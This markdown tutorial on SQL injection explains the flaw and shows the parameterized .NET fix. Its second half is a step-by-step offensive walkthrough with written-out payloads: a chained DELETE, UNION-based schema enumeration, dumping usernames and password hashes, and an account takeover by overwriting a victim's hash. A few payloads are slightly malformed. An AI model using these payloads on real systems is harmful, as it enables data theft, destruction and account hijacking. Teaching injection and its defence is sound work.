

# SQL Injection
SQL Injection is a method of causing malicious SQL code to execute on the database due to improperly written code on the web server

## CAUSE
Unsanitary data sent to the database server that gets executed

## SOLUTION
SQL injection can be avoided by sanitizing all parameters of commands that are sent to the database



## How SQL Injection Attacks Work
Here's a code block that creates a SqlCommand ojbect and includes a variable in the query text:
```csharp
SqlCommand command = new SqlCommand();command.CommandText = $"SELECT * FROM Student WHERE Name='" + name + "'";
```

This looks pretty harmless at first, but what if name were set to the following:
```sql
Bob'; DELETE FROM ASPNetUsers --
```

The select statement sent to the server would now look like this:
```sql
SELECT * FROM Student WHERE Name='Bob';DELETE FROM ASPNETUsers --'
```

- The first part of name, `Bob';` makes it so that the query is proper and execution will not terminate.  
- The semicolon allows for another statement to be chained afterwards, the delete statement in this case.  
- The double-hyphen at the end is what many SQL dialects use as a comment.  This causes the trailing single-quote from the original command to be commented and ignored when the command runs, thus preventing a syntax error in the command.

## How to Sanitize Your Inputs (in .NET)
This is such a well-explored problem that you will find similar techniques across most languages, but the specific implementation detail for .NET is:
```csharp
using SqlCommand command = new SqlCommand();command.CommandText = "SELECT * FROM Student WHERE Name=@Name";
command.Parameters.AddWithValue("@Name", name);
```
By using this method to add parameters, the underlying libraries automatically handle ensuring that your inputs are safe.  The only exception to this is if you are executing a stored procedure on the server which utilizes Dynamic SQL, but this is a pretty rare practice.

## Data Gleaning with SQL Injection
To better understand these attacks, let's have a little fun and explore how to carry out various SQL injection practices.

**Data Gleaning** is a technique used to determine private information about the database that the application operates on.  To perform **data gleaning**, the query you are performing injection on must output data to the webpage based on the query.  The most optimal situation is when a textbox is provided to help filter a list of rows that are output.  We can then append data from our own sneaky query onto normal data that would be returned.

Here's an example with a query we can see:

```csharp
string sqlQuery = "SELECT  ID, Name, FavoriteColor FROM UserPreferences WHERE Name LIKE '%" + name + "%'";
```
We can see that this query will be vulnerable to SQL injection.  

If we sent this value for the `name` variable, we would see that our own data is returned:
```sql
' UNION 1, 'Bob', 'Red';--
```
We have used UNION to append our own data onto the result set.  This could be modifed to something more devious:
```sql
' UNION SELECT 1, UserName, 'Red' FROM AspNetUsers;-- 
```
The query will now return a list of all usernames from the AspNetUsers table (assuming it exists). This was easy when we know the query.  What if we don't know the underlying query, however?

### Step 1: Determining the Number of Columns in the Output
The first step, and potentially the most difficult, is to determine the number of columns returned by the original query.  To do this, we will start with a single value in our UNION.
```sql
' UNION '1';--
```
If error messages are enabled on the server, this would potentially display an error message like:
```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```
With this information, we keep adding values until it either succeeds, or we get a different error message:
```sql
'UNION '1', '2';--
'UNION '1', '2', '3';--
```
I am intentionally passing quoted numerical values because if a column is a number, most SQL variants will implicitly convert the string '1' to the number 1.  This conversion does not work the other way around to convert 1 to '1' in case the column is a string and we could end up with an error about incompatible column types in our UNION.

### Step 2: Inspecting the Database
Once we have determined the proper number of columns in the original query, the real fun begins.  We can now start to retrieve other information about the database if permissions allow.

Let's assume that we determine that the original queried table has three columns: 

ID, Name, FavoriteColor

The following statement (for MS SQL Server) will allow us to determine the schema and names of all tables within the database:
```sql
' UNION SELECT '0', name, '2' FROM sys.objects WHERE type = 'U';--
```

We can now go one step further and inspect the columns for a specific table.  Let's assume there is a table named `AspNetUsers`.
```sql
' UNION SELECT '0', column_name, '2' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='AspNetUsers' AND TABLE_SCHEMA='dbo';--
```

We now have access to information about the AspNet Users table and discover that we can see both the UserName and PasswordHash columns.
```sql
' UNION SELECT '0', UserName, PasswordHash FROM AspNetUsers;--
```
### Step 3: Gaining Unauthorized Access
At this point, enough information has potentially been gained that any user of the system could be compromised.  You should save both the PasswordHash value of a known password (e.g. yours), and the original PasswordHash value of a user to take over.  Then, we would replace the other user's hash with our own:

```sql
';UPDATE AspNetUsers SET PasswordHash='value of hash that we know' WHERE Username='username of account to control';--
```

We would now be able to log into that account using our own password.